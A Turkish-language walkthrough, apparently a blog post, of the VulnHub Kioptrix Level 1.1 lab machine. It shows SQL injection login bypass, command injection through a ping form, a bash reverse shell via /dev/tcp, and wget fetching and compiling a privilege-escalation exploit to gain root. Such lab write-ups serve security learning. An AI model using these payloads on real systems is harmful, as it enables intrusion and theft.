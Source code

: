 Arkadaşlar merhaba;

Bu yazımda vulnhub.com üzerinde yayınlanmış olan Kioptrix1.1#2 makinasının çözümünü anlatmaya çalışacağım.

###### Linkler : ######
	
http://www.kioptrix.com
https://www.vulnhub.com/entry/kioptrix-level-11-2,23/

###### Çözüm : ######

İlk olarak benim kullandığım VMware’da Kali’mi ve Kioptrix’i ayaklandırıyorum. Tabi ki de yapacağım ilk işlem hedef makinamın IP adresini bulmak olacak. Bunun için ilk önce Kali makinamın IP adresini buluyorum.

    $ ifconfig
![IP Adresi Bulma](/pics/1.png "ifconfig")

Daha sonra Kali’min bulunduğu scope taki IP’leri tarayarak devam ediyorum. 

	$ netdiscover -i eth0 -r 192.168.1.0/24
![Scope Tarama](/pics/2.png "netdiscover")

Ve gördüğümüz gibi ip adresim geldi😊 ip adresimi bulduktan sonra yapacağımız şey hemen bir nmap taraması yapmak olacak ki açık portlardan zafiyet bulabilecek miyim kontrol etmeliyim.
	
	$ nmap -sS -sV 192.168.1.22
![Port Tarama](/pics/3.png "nmap")

Gördüğümüz gibi açık 6 adet port bulunmakta. Burada hemen 80 portunda çalışan http servisi dikkatimi çekiyor ve tarayıcımdan hedef makinanın IP adresini girerek web sitesinde ne var ona bakıyorum. 

![Http Servisi](/pics/4.png "Http Servisi")

Ve karşıma bir admin paneli geliyor. MySQL servisi kullanıldığını da bildiğim için (3306 portu) hemen sql injection denemesi yapıyorum 😊
Bu noktada sayfanın arka planda aşağıdaki gibi bir SQL Query kullandığını düşünerek 
SELECT * FROM users WHERE username='' AND password=''

Aşağıdaki sql injection kodunu username ve password bölümlerine girerek ,
1’ or ‘1’=’1

Sorguyu aşağıdaki şekle getirmeyi amaçlıyorum:
SELECT * FROM users WHERE username='1' or '1'='1' AND password='1' or '1'='1'

Eğer tahminim doğruysa basitçe username 1 ise veya 1=1 ise ve password de 1 veya 1=1 ise beni içeri al demiş oluyorum😊 ki herkesin bildiği gibi 1=1 her zaman doğrudur ve sorguyu bu şekilde bypass etmiş olurum.
![Ping Panel](/pics/5.png "Ping Panel")

Mükemmel!  Sorguyu aştık.😊 Karşıma ping atmak için bir komut paneli geldi. Kendi hostuma ping atarak deniyorum.
![Ping Try](/pics/6.png "Ping Try")

Evet ping komutu doğru çalışıyor ve gelen sayfadan gördüğüm üzere (url’ye bakabilirsiniz /pingit.php) sayfa php kodları ile çalışıyor. Ben de hemen bir ; koyarak bypass denemesi yapıyorum.
    
    $whoami
![whoami](/pics/7.png "whoami")

Oldu! 😊 Sistem komutlarını çalıştırabildiğimi görüyorum ve ilk önce parolaları bulabileceğim /etc/passwd ve /etc/shadow dosyalarını okumaya çalışıyorum.

![etc](/pics/8.png "etc")
![etc](/pics/9.png "etc")

Resimlerden görüldüğü üzere /etc/shadow dosyasını okuyamıyorum. Başka bir yol denemem lazım.
Ben de Reverse Shell almayı deniyorum. 
İlk önce netcat ile 443 portumu dinlemeye açıyorum.

    $ nc -nvlp 443
    
![netcat](/pics/10.png "netcat")

Daha sonra reverse Shell almak için pentestmonkey.net sitesinden bash shellini alıyorum ve kendime göre düzenleyip sitedeki ping command promptuma yazıyorum.

    $ bash -i >& /dev/tcp/192.168.1.22/443 0>&1 (Buradaki ip adresi kalimin ip’si ve port da dinlemeye açtığım port.)
Submit butonuna bastığımda hedef makinaya bağlantı sağlandığını ve yetkisiz bir Shell ile komut çalıştırabildiğimi görüyorum 😊

![Reverse Shell](/pics/11.png "Reverse Shell")

Şimdi yapmam gereken yetki yükseltip sistemde root olmaya çalışmak. Aşağıdaki komutları çalıştırarak hedef makinamın hangi işletim sistemini kullandığını ve versiyon bilgilerini öğreniyorum.

    $  cat /etc/*-release
    $  cat /proc/version
![Version](/pics/12.png "Version")

Versiyon bilgilerini de öğrendiğime göre internette ufak bir Google search ile bu Linux versiyonunda yetki yükseltme sağlayan https://www.exploit-db.com/exploits/9542/ bu exploiti buluyorum. Şimdi exploitimi kendi Kali’me indirip hedef makinaya kendi Kali’mden wget ile çekiyorum.
Bunu yapmak için indirdiğim exploiti kendi Kali’mde /var/www/html dosyasına atıp apache servisimi başlatıyorum ki wget ile ulaşabileceğim internete açık bir sunucu olsun.

    $ service apache2 start ( Bunu kendi Kali’mde yapıyorum. )
    $ cd /tmp ( tmp dizinine geçiyorum ki dosya yazıp okuyabileceğim bir yer olmalı. Bunu hedef makinada yapıyorum exploiti çekeceğim yer burası olacak. )
    $ wget http://192.168.1.23/9542.c ( Bunu Shell ile ulaştığım hedef makinada yapıyorum. )
![wget](/pics/13.png "wget")

Şimdi hedef makinaya yüklediğim exploit kodu C dilinde yazılmış olduğu için GCC ile compile ediyorum ve kodumu çalıştırıyorum. ( Artık exploiti hedef makinaya çektiğim için GCC ile compile ve kodu çalıştırma işlemlerimi hedef makina üzerinde yapıyorum. )

    $ gcc 9542.c 
    $ ./a.out
Daha sonra `whoami` komutu çalıştırdığımda sistemde artık root olduğumuzu görebiliriz.

    $ whoami
![root](/pics/14.png "root")
